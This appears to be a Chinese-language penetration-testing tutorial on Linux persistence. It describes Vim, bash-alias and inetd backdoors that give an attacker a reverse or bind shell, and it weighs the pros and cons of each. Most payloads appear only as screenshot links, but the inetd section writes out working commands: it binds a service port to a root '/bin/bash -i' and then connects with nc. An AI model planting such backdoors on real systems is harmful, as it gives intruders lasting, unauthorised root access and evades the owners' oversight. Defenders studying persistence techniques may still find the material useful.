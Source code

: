 ## Vim 后门
修改/etc/vimrc  或者/etc/.vimrc，每次启动vim 执行恶意脚本，vim 支持python，构建python 反弹shell
```bash
vim /etc/vimrc
```
![image.png](./Linux 权限维持.assets/2023_05_19_10_24_03_fAkvNocy.png)

![image.png](./Linux 权限维持.assets/2023_05_19_10_24_04_9bgTzJ3w.png)

![image.png](./Linux 权限维持.assets/2023_05_19_10_24_04_ALHChTez.png)

![image.png](./Linux 权限维持.assets/2023_05_19_10_24_04_AIX3h16M.png)



| **优点** | **缺点** |
| :-: | :-: |
| 利用简单 | 持久化效果一般，易暴露 |

## alias 后门
alias 是Linux的命令的别名，存储在~/.bashrc(这里只讨论`bash shell`)中，修改之后再使用命令，当再使用ls时，就会反弹shell
```bash
source ~/.bashrc
```
![image.png](./Linux 权限维持.assets/2023_05_19_10_24_05_JL9BeWb8.png)



| **优点** | **缺点** |
| :-: | :-: |
| 利用简单 | 容易被发现，持久化效果一般 |

## inetd 后门
通俗来讲就是一个监听外部网络请求 [就是一个socket] 的系统守护进程,其实有很多比较古老的服务都是基于此守护进程

```shell
# 安装inetd
apt install openbsd-inetd
# 可以直接用service中定义好的服务，只需要把实际的处理程序替换下即可
vim /etc/services
	fido 60179/tcp # fidonet EMSI over TCP
# 配置inetd.conf 并启动inetd
vim /etc/inetd.conf
	fido stream tcp nowait root /bin/bash -i # 当外部请求为fido的服务时，就反弹一个交互式的shell
systemctl restart inetd
nc -vv [host] [port]
```
![image.png](./Linux 权限维持.assets/2023_05_19_10_24_05_cA1lbMHO.png)
